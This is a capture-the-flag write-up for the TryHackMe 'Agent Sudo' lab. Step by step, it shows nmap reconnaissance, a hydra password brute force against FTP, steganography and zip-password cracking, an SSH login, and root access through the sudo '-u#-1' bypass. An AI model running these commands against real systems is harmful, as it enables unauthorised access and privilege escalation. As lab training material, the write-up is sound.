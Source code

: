 ```yaml
---
title: "Agent Sudo"
date: 2024-07-02
draft: false
summary: "Writeup for Agent Sudo CTF challenge on TryHackMe."
tags: ["linux", "sudo", "steganography", "hash crack"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/agent_sudo/cover.webp"
  caption: "Agent Sudo TryHackMe Challenge"
  alt: "Agent Sudo cover"
platform: "TryHackMe"
---
```


We found a secret server located under the deep sea. Our task is to hack inside the server and reveal the truth.
<!--more-->
To access the lab, click on the link given below:-
- https://tryhackme.com/r/room/agentsudoctf

## Recon

I performed an **nmap** aggressive scan to identify open ports and running services.

```shell
nmap -A TARGET -T4
```

| **Port** | **Service** |
| -------- | ----------- |
| 21       | ftp         |
| 22       | ssh         |
| 80       | http        |

![](https://cdn.ziomsec.com/agent_sudo/1.webp)

## Initial Foothold

I accessed the web server using **curl** and received instructions on how to access the page.

```shell
curl http://TARGET
```

![](https://cdn.ziomsec.com/agent_sudo/2.webp)

Since the message was written by *Agent R*, I tried using the nickname *R* to access the page and received a new message.

```shell
curl -A 'R' -L http://TARGET
```
> The **-L** flag in curl is used to follow redirects.

![](https://cdn.ziomsec.com/agent_sudo/3.webp)

I tried accessing different pages by changing the alphabet and finally found a way to get in when I used **C**.

```shell
curl -A 'c' -L http://target
```

![](https://cdn.ziomsec.com/agent_sudo/4.webp)

I found a username called *chris* so I attempted to crack its password for the other 2 services found running, namely *ftp* and *ssh*.

```shell
hydra -l 'chris' -P /usr/share/wordlists/rockyou.txt ftp://TARGET
```

![](https://cdn.ziomsec.com/agent_sudo/5.webp)

| username | password |
| -------- | -------- |
| chris    | crystal  |

I then connected to the *ftp* server using these credentials.

```shell
ftp chris@TARGET
# enter password
```

![](https://cdn.ziomsec.com/agent_sudo/6.webp)

I then downloaded all the files from the server.

```ftp
get To_agent3.txt
get cute-alien.jpg
get cutie.png
```

![](https://cdn.ziomsec.com/agent_sudo/7.webp)

The txt file provided a hint for getting the credentials for *agent J*.

![](https://cdn.ziomsec.com/agent_sudo/8.webp)

I then used **binwalk** to search for hidden files inside the images and found some in the *cutie.png*.

```shell
binwalk cutie.png
```

![](https://cdn.ziomsec.com/agent_sudo/9.webp)

I then extracted the file from inside the image.

```shell
binwalk cutie.png -e --run-as=root
```

![](https://cdn.ziomsec.com/agent_sudo/10.webp)

The hidden folder contained a zip file. However, this file was password protected - so I converted it to **john** crackable format and cracked its password using **john**.

![](https://cdn.ziomsec.com/agent_sudo/11.webp)

```shell
zip2john 8702.zip > myzip.hash
john myzip.hash
```

![](https://cdn.ziomsec.com/agent_sudo/12.webp)

I then extracted the files from the **zip** using this password.

```shell
7z e 8702.zip
# enter password
```

![](https://cdn.ziomsec.com/agent_sudo/13.webp)

The zip contained a txt file, so I read that.

![](https://cdn.ziomsec.com/agent_sudo/14.webp)

The text inside `''` looked encoded, so I visited **CyberChef** and decoded it
- https://gchq.github.io/CyberChef/ 

![](https://cdn.ziomsec.com/agent_sudo/15.webp)

I used the **steghide** command with the password *Area51* to extract information from the JPEG image file.

```shell
steghide extract -sf cute-alien.jpg
```

![](https://cdn.ziomsec.com/agent_sudo/16.webp)

I read the *message.txt* file and found the password of *james*.

![](https://cdn.ziomsec.com/agent_sudo/17.webp)

I then logged as *james* via **SSH**.

```shell
ssh james@TARGET
```

![](https://cdn.ziomsec.com/agent_sudo/18.webp)

I captured the first flag from my home directory.

![](https://cdn.ziomsec.com/agent_sudo/19.webp)

There was another image along with my flag. I transferred it to my system using an **HTTP** server.

```shell
python3 -m http.server 8080
```

![](https://cdn.ziomsec.com/agent_sudo/20.webp)

```shell
wget http://TARGET:8080/alien_autospy.jpg
```

![](https://cdn.ziomsec.com/agent_sudo/21.webp)

I then conducted a Google reverse image search to gather more information about the image.

![](https://cdn.ziomsec.com/agent_sudo/22.webp)

## Privilege Escalation

### Enumeration
I downloaded the **Linux Smart Enumeration** script and ran it on the target.
- https://github.com/diego-treitos/linux-smart-enumeration

![](https://cdn.ziomsec.com/agent_sudo/23.webp)

![](https://cdn.ziomsec.com/agent_sudo/24.webp)

![](https://cdn.ziomsec.com/agent_sudo/25.webp)

The script identified a very interesting permission. We could run the `/bin/bash` shell as any user accept *root*.

![](https://cdn.ziomsec.com/agent_sudo/26.webp)

I manually verified the same and checked my **sudo** version to search for ways to bypass this restriction.

```shell
sudo -l
sudo --version
```

![](https://cdn.ziomsec.com/agent_sudo/27.webp)

### Bypassing Sudo Restriction
**Exploit-DB** contained a bypass that would work on my **sudo** version.

![](https://cdn.ziomsec.com/agent_sudo/28.webp)

I read the **POC** and replicated it to escalate my privileges.

```
sudo -u#-1 /bin/bash
```

![](https://cdn.ziomsec.com/agent_sudo/29.webp)

I captured the *root* flag and revealed Agent R's identity.

![](https://cdn.ziomsec.com/agent_sudo/30.webp)

## Closure

Here's a summary of how I compromised **agent sudo**:
- I accessed the web server, which required a specific **user-agent** for entry.
- After gaining access, I conducted a **password spray** attack and discovered **chris's** **ftp** password.
- Downloading all files from the **ftp** server, I uncovered hidden messages and passwords within images.
- Using **john**, I cracked the password for *cutie.png* and obtained access to *cute-alien.jpeg*.
- Extracting files from *cute-alien.jpeg*, I found credentials for **ssh** login.
- With these credentials, I established initial access.
- Finally, identifying a vulnerability in **sudo**, I applied an exploit from **exploit-db** to gain **root** access.

That concludes my approach. Happy hacking!

---
